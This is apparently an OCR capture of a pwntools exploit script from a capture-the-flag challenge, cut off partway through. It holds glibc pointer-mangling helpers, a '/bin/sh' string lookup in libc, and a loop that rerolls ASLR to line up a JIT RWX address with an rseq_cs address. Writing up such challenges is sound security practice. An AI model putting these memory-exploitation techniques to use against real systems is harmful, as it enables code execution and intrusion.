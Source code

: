 ```py
ptr_mangle = lambda addr, cookie=0: rol(addr ^ cookie, 17)
ptr_demangle = lambda addr, cookie=0: ror(addr, 17) ^ cookie
ptr_getcookie = lambda mangled, demangled: ptr_demangle(mangled, demangled)
binsh = lambda: next(libc.search(b"/bin/sh\0"))
snum = lambda a, b: sla(a, str(b).encode("iso-8859-1"))
slaprefix = lambda a: sla(PREFIX, a)
saprefix = lambda a: sa(PREFIX, a)
choice = lambda a: snum(PREFIX, a)

def printx(**kwargs):
    for k, v in kwargs.items():
        success("%s: %#x" % (k, v))

def launch():
    if args.REMOTE:
        l = launch_remote
    elif args.DOCKER:
        l = launch_docker
    else:
        l = launch_local
    with context.local(log_level=logging.ERROR):
        l()
    if args.POW:
        solve_pow()

def getb(d, a, b):
    a_ = d.find(a)
    if a_ == -1 or a == b"": a_ = 0
    b_ = d.find(b, a_+len(a))
    if b_ == -1 or b == b"": b_ = len(d)
    return d[a_+len(a):b_]
def getr(d, p):
    return re.findall(p, d)[0]

# ================================================================
# EXPLOIT HERE
# ================================================================

with context.local(log_level=logging.ERROR):
    exe = ELF(file)
    libc = exe.libc
context.binary = exe

tries = 0

def exploit():
    i = 0
    prog = log.progress("rerolls")
    while True:
        prog.status(hex(i))
        recvu(b"@ ")
        rwx = int(recvu(b"\n", True), 16)
        rseq_cs = rwx - 0x21000 + 0x10 + 0x10000
        if ((rwx>>24)&0xffff) == 0xb848: # 2 fixed bytes
            if (rseq_cs >> 23) & 1 == 0: # 1 fixed bit (because of emit_push())
                break
        i += 1
        sl(b"clear") # reroll aslr
    printx(jit=rwx, rseqcs=rseq_cs)
    sl(b"")

    def interact(data):
        if type(data) == str:
```